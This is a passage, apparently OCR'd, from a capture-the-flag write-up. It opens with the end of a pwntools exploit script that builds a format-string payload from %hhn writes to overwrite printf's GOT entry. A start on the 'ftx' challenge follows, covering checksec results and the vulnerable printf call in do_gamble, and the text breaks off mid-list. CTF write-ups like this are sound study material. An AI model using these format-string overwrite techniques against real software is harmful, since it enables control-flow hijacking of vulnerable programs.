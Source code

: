 	# payload = b"%134$lln"
	# payload += p64(prinf_int)
	
	payload = (b"%211c...")  # 133th -> 214 -> 0xd6
	payload += (b"%143$hhn")  # 134th
	
	payload += (b"%55c....")  # 135th -> 0x11 + 256 -214 = 59 -> 0x11
	payload += (b"%144$hhn")  # 136
	
	payload += (b"%43c....")  # 137th -> 0x40 - 0x11 =  47
	payload += (b"%145$hhn")  # 138
	
	payload += (b"%189c...")  # 139th -> 0x00 + 256 - 0x40 = 192
	payload += (b"%146$hhn")  # 140th
	
	payload += (b"%147$hhn")  # 141th
	payload += (b"%148$hhn")  # 142th
	
	payload += p64(prinf_int)  # 143
	payload += p64(prinf_int + 1)  # 144
	payload += p64(prinf_int + 2)  # 145
	payload += p64(prinf_int + 3)  # 146
	payload += p64(prinf_int + 4)  # 147
	payload += p64(prinf_int + 5)  # 148
	
	print('payload:', payload)
	
	p.sendlineafter(b': ', payload)
	
	p.interactive()
	
	```
	
	
## ftx

#### writeup

* checksec: RELRO: No RELRO means we can overwrite GOT， allowing us to redirect `printf` to another function like `win`. & PIE: PIE enabled, so function addresses are randomized at runtime. The base address needs to be calculated dynamically.
* The vulnerability is located in the `do_gamble` function, where a user-controllable format string is passed to `printf`:

	```
	00001fba  488d85d0fdffff     lea     rax, [rbp-0x230 {format}]
	00001fc1  4889c7             mov     rdi, rax {format}
	00001fc4  b800000000         mov     eax, 0x0
	00001fc9  e8b2f0ffff         call    printf
	```

* redirecting printf to win via Format String Vulnerability

	* offset
	
